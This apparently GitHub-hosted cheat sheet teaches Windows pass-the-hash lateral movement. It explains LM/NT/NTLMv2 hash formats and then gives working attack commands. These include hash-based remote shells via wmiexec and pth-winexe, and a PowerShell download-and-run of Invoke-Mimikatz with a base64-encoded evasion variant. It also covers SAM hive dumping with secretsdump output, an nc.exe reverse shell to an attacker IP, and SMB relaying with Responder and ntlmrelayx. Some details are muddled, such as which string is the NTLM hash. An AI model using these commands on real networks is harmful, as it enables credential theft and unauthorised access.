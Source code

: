 # Pass-The-Hash Windows

In most case of leathral movment, we usually don't have password. 
This PTH technique, allows us to authenticate to a remote target by using a valid username and NTLM/LM hash rather than username and password. First let's understand the diffrences between LM,NTLM and NTLMv1/v2 hashes:

## Lan Manager (LM) Hashes

The oldest password storage used by Windows. In Windows 2000, XP and Server 2003 passwords shorter than 15 characters were stored in the Lan Manager (LM) hash format as following:

```
user:group:id:lmhash:nthash::
```

For example:

```
 Admin:502:aad3c435b514a4eeaad3b935b51304fe:c46b9e588fa0d112de6f59fd6d58eae3:::
```

This hash divided by semicolon, means:

- Admin is the user name

- 502 is the relative identifier (500 is an administrator, 502 here is a kerberos account. (adsecurity.org/?p=483)

- aad3c435b514a4eeaad3b935b51304f is the LM hash

- c46b9e588fa0d112de6f59fd6d58eae3 is the NT hash 


Our final NTLM hash for brute force attack will be *aad3c435b514a4eeaad3b935b51304fe*
For online cracking use: https://hashkiller.co.uk/Cracker/NTLM

## NT (New Technology) Hashes

In newer Windows versions (such as Vista, Server 2008+, Win7 etc.) this is the way passwords are stored, also those hashes are stored on domain controllers in the NTDS file and commonly use for pass-the-hash. This commonly use in term of NTLM hash (or just NTLM).

NTLM hash with only the NT component format as following:

```
user:group:id:emptylmhash:nthash::
```

For example:

```
Administrator:500:NO PASSWORD*********************:EC054D40119570A46634350291AF0F72:::
ITguy:1007:AAD3B435B51404EEAAD3B435B51404EE:38103E9BF8D09200D725F1541ECC5BCA:::
```

In both cases, it is the same format. However, the string "NO PASSWORD" or "AAD3B435B51404EEAAD3B435B51404EE" display in place of no password depend on the tool being used to dump those hashes as normally LM hash is empty and not stored. NTLM hash can be cracked to gain password, or used to pass-the-hash.

For online cracking use: https://hashkiller.co.uk/Cracker/NTLM

## NTLMv1/v2

Those NTLMv1/v2 are challenge response protocols used for authentication in Windows environments, much harder to bruteforce and usually used in SMB relay attack using Responder.py or Impacket Python tools to obtains this hash from a client in the network.

NTLMv1-SSP hash format as following:

```
username::hostname:*response*:*response*:challenge
```

For example:

```
john::MWLAB:338d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41:cb8086049ec4736c
```

We will use the response characters from the hash string as our final hash for pass-the-hash:

```
38d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41
```

Then, use this hash on one of pth (pass-the-hash) tools for example wmiexec from Impacket:

```
root@kali:~# wmiexec.py  -hashes 38d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41 administrator@192.168.1.12
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

## Dump Hashes

### Using FgDump.exe tool

Dump hashes from running system using fgdump.exe from Kali as following:

```
root@kali:~# cd /usr/share/windows-binaries/fgdump
root@kali:/usr/share/windows-binaries/fgdump# python -m SimpleHTTPServer 80
```

### Using powershell mimikatz

Use the newer version of Invoke-Mimikatz, available in Empire 3.0 on the victim machine:

```
C:\> powershell -c "IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds;"
```

*For Windows 10:*

Encode the command using the following trick in you Kali machine:

```
root@kali:~# iconv -f ASCII -t UTF-16LE <<<'IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/7a39a55f127b1aeb951b3d9d80c6dc64500cacb5/data/module_source/credentials/Invoke-Mimikatz.ps1"); $m = Invoke-Mimikatz -DumpCreds; $m' | base64 -w 0
```

It will output:

```
SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAG...
```

Then use it in your powershell command:

```
C:\> powershell -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAG...
```

### From Compromised system

If we already compromised system, then we able extract the values of SAM files from you system and then dump thier hashes in your kali machine:

On victim machine (has to run under SYSTEM-level privileges):

```
C:\> reg.exe save hklm\sam c:\temp\sam.save
C:\> reg.exe save hklm\security c:\temp\security.save
C:\> reg.exe save hklm\system c:\temp\system.save

```

Then use those copy of the SYSTEM, SECURITY and SAM hives back to your kali machien and use secretsdump.py to dump hashes:


```
root@kali:~# secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
Impacket v0.9.11-dev - Copyright 2002-2013 Core Security Technologies

[*] Target system bootKey: 0x602e8c2947d56a95bf9cfad9e0bbbace
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
renadm:500:aad3b435b51404eeaad3b435b51404ee:3e24dcead23468ce597d6883c576f657:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
support:1000:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Dumping cached domain logon information (uid:encryptedHash:longDomain:domain)
hdes:6ec74661650377df488415415bf10321:securus.corp.com:SECURUS:::
Administrator:c4a850e0fee5af324a57fd2eeb8dbd24:SECURUS.CORP.COM:SECURUS:::
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:2fb3672702973ac1b9ade0acbdab432f
...

```

## Practical Usage PTH

### Execute as another user

Let's say you already have an admin account in network but you want to execute process under this account on antoher machine in network (like run-as). The following script may help:

```
$ secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$ mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
$ computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

### Pth-winexe

This help us to get an interactive command line with the remote victim:

USAGE:

```
pth-winexe -U DOMAIN/user%hash //$ip cmd
```

Example:
```
root@kali:~# pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.12 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows \[Version 6.3.9600\]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
Server\Administrator
```

### SMB Relaying attack

Fire up the Responder.py tool:

```
root@kali:~# python Responder.py -I eth1 -r -d -w
```

In another window running the following command using Impacket Python:

```
root@kali:~# ntlmrelayx.py -tf targets.txt -c [POWERSHELL REVERSE SHELL]
```

Upon successful relay it will dump the SAM database of the target and executing a command in background using the NTLM hash.

